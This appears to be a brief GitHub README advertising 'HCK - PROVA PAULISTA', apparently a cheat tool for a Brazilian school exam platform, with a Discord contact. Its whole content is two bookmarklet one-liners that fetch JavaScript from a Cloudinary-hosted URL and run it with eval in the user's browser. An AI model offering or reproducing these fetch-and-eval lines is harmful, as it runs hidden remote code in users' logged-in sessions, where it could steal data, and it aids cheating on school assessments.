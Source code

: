 # 🚀 HCK - PROVA PAULISTA 

## Version Stable:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## Version Beta v2:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745546159/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
